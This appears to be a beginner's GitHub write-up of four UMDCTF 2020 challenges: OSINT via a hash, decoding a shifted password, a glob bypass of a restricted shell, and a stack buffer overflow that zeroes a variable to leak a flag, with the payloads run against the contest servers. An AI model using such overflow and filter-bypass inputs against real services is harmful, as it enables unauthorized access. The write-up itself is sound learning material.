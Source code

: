 # UMDCTF

This is a quick repo I'm throwing together to attempt to capture some of my thoughts during the UMBCTF on 18APR2020.  I am a complete newbie when it comes to these things so don't expect to get a ton of wisdom from me.

## MemeCTF
I wish I was better at OSINT :(

9012389aad4eb9be53d225c4bbe72098ebdb37b97a52893171ff1bce0d40f383

I googled this hash which took me to the (UMD-CSEC github profile)[https://github.com/UMD-CSEC].  The repository only shows a single markdown document but the description has the hash so I know I'm in the right place.  I then noticed that there are 3 commits.  The second commit shows that a flag was added.  Clicking on the commit, I see that this commit has a binary file *.lol.jpg*.  I click Browse Files and the filename, I am shows a jpg that has the flag on it:  UMBDCTF-{meme_ch4llenges_ftw}

## Santa Mysterious Box
You're given an ELF binary called SantaBox.  The first thing I did was run *file* on it:

SantaBox: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=0400ccb74c0271f1ee7ddbd3c1f022466338d6f5, stripped

Who says you can't execute random binaries off of the internet?

```
↳ $ ./SantaBox
-----------------------------------------
|                                       |
|                                       |
|                                       |
|           Santa's Mysterious          |
|             Box of Treats             |
|                                       |
|                                       |
|                                       |
|                                       |
|                                       |
-----------------------------------------
Enter code here: Secrets
You received coal!
```

Ok, so it needs a code.  I wonder if the string is visible so I run strings and can't see the telltale signs if UMDCTF.  I then run it through *ltrace* to see what functions its calling and something interesting jumps out.

```
__isoc99_scanf(0x55b41b261c7a, 0x7ffcb056f310, 0, 0Enter code here: abcdefghijklmnop
)                                             = 1
strcmp("\\]^_`abcdefghijk", "PH?>OA(vN/io/Zb<q.Zt+pZKm.io0x")
```

I entered the code of **abcdefghijklmnop** and the strcmp shows **\\]^_`abcdefghijk**.  This is a sign the letters have all been shifted by the same amount.  Let me copy **PH?>OA(vN/io/Zb<q.Zt+pZKm.io0x** into python and perform a subtraction of 5 and see what we come up with.

```python
>>> code = 'PH?>OA(vN/io/Zb<q.Zt+pZKm.io0x'
>>> ''.join((chr(ord(x)+5) for x in code))
'UMDCTF-{S4nt4_gAv3_y0u_Pr3nt5}'
```

## Question
To read or not to read the flag... That is the question!

nc 192.241.138.174 9999

For this one, you connect via netcat and the terminal has already presented you with the *cat* command having already been entered.  However, it seems as most other character are not allowed.  I gave it a couple of attempts and got lucky when I remembered reading about globbing inside of bash during another CTF.

```
↳ $ nc 192.241.138.174 9999
The flag.txt is here. Try to read it!
> cat flag.txt
Nope!
> cat *
Nope!
> cat ????.???
UMDCTF-{s0me_questions_h4ve_answ3rs}
```

## Cowspeak as a Service
lumpus gave up installing cowspeak so he made it a remote service instead! Too bad it keeps overwriting old messages... Can you become chief cow and read the first message?

nc 192.241.138.174 9998

This one I struggleed with for a bit.  Probably my first real struggle of the CTF.  Luckily the *main.c* file is provided and in it I noticed that use of *strcpy.

```
void moo(char *msg)
{
        char speak[64];
        int chief_cow = 1;

        strcpy(speak, msg);
        printf("Value of chief_cow: %d\n", chief_cow);
        speak[strcspn(speak, "\r\n")] = 0;
        setenv("MSG", speak, chief_cow);

        system("./cowsay $MSG");

}
```

I compiled the binary and played around with overflowing *speak* but couldn't seem to affect its call to cowsay.  I took a second to think about what it was that I was trying to accomplish.  I then honed in on the use of *setenv*. The man page for this function indicates:

```
int setenv(const char *name, const char *value, int overwrite);
...
if overwrite is zero, then the value of name is not changed
```

So, that's what I need to do.  I need to overlow and change the value of chief_cow to zero.  However, its not in the correct place on the stack where an overflow of speak can affect it.  Thats when I realize that I didn't compile with **-fno-stack-protector** which is a must for most of these easier overflow problems.  I recompile and notice I can now adjust the value of chief_cow if I overflow.  I modify the *main.c* code to print out the value of *chief_cow* so that I can see its value as I attempt to exploit it.  I then put togethr a pretty crappy for loop to loop through and inspect the results.

```
for i in {64..80}; do echo $i; python -c "print('a'*"$i" + '\x00'*4)" | ./cow; done
```

Looking over the results I can see that 76 characters overflowed and updated the value of *chief_cow*.

```
76
Welcome to Cowsay as a Service (CaaS)!

Enter your message:

Value of chief_cow: 0
 _________________________________________
/ aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa \
\ aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa   /
 -----------------------------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```

I attempt this against the server:

```
↳ $ python -c "print('a'*76 + '\x00'*4)" | nc 192.241.138.174 9998
Welcome to Cowsay as a Service (CaaS)!

Enter your message:

 ________________________
< UMDCTF-{P5Th_Ov3rF10w} >
 ------------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```

